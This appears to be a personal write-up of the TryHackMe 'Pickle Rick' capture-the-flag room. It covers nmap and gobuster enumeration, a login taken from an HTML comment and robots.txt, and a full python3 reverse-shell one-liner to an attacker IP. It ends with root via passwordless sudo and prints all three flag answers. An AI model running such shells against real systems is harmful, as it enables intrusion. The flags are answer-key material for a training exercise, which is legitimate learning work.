 https://tryhackme.com/room/picklerick

first we do an nmap to see what ports are open

we see theres an ssh and http, the http shows a page saying that we need to login to the computer
im going to use [[Gobuster]] to enumerate more potential pages
`gobuster dir --url $ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

we find the robots.txt which just says "Wubbalubbadubdub" and also a login.php

inspecting the html code theres a comment giving us the username R1ckRul3s

using this user and the robots.txt as a password we get access

we get a command pannel where we can execute commands
we can check if python is running with the command which python3
using [[Reverse Shell Generator]] we generate a python3 rev shell and run it

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.54.71",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

`
now with the rev shell we can cat the first ingrident in the current directory,
getting the flag mr. meeseek hair

theres also clue.txt which tells us to further explore the filesystem to find the next flag

so we cd to the home dir to get the second flag 1 jerry tear 

for the final flag we check for sudo using sudo -l we can see that sudo has no password so we can get root with sudo su, now we can cd to root and find the 3rd flag fleeb juice